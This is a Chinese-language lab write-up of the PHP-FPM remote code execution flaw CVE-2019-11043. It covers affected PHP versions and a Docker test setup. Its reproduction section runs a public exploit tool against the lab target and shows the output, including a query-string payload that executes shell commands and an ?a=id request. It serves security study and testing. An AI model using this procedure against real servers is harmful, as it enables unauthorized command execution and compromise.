


# PHP-FPM 远程代码执行漏洞 CVE-2019-11043

## 漏洞描述

在长亭科技举办的 Real World CTF 中，国外安全研究员 Andrew Danau 在解决一道 CTF 题目时发现，向目标服务器 URL 发送 %0a 符号时，服务返回异常，疑似存在漏洞。

在使用一些有错误的 Nginx 配置的情况下，通过恶意构造的数据包，即可让 PHP-FPM 执行任意代码。

参考链接：

- https://bugs.php.net/bug.php?id=78599
- https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/
- https://github.com/neex/phuip-fpizdam

## 漏洞影响

在 Nginx + PHP-FPM 环境下，当启用了上述 Nginx 配置后，以下 PHP 版本受本次漏洞影响：

```
PHP 7.0 版本
PHP 7.1 版本
PHP 7.2 版本
PHP 7.3 版本
```

另外，PHP 5.6 版本也受此漏洞影响，但目前只能 Crash，不可以远程代码执行。

## 环境搭建

Vulhub 执行如下命令启动有漏洞的 Nginx 和 PHP：

```
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/index.php` 即可查看到一个默认页面。

## 漏洞复现

使用 https://github.com/neex/phuip-fpizdam 中给出的工具，发送数据包：

```
$ go run . "http://your-ip:8080/index.php"
2019/10/23 19:41:00 Base status code is 200
2019/10/23 19:41:00 Status code 502 for qsl=1795, adding as a candidate
2019/10/23 19:41:00 The target is probably vulnerable. Possible QSLs: [1785 1790 1795]
2019/10/23 19:41:02 Attack params found: --qsl 1790 --pisos 152 --skip-detect
2019/10/23 19:41:02 Trying to set "session.auto_start=0"...
2019/10/23 19:41:02 Detect() returned attack params: --qsl 1790 --pisos 152 --skip-detect <-- REMEMBER THIS
2019/10/23 19:41:02 Performing attack using php.ini settings...
2019/10/23 19:41:02 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/23 19:41:02 Trying to cleanup /tmp/a...
2019/10/23 19:41:02 Done!
```



可见，这里已经执行成功。

我们访问 `http://your-ip:8080/index.php?a=id`，即可查看到命令已成功执行：



注意，因为 php-fpm 会启动多个子进程，在访问 `/index.php?a=id` 时需要多访问几次，以访问到被污染的进程。
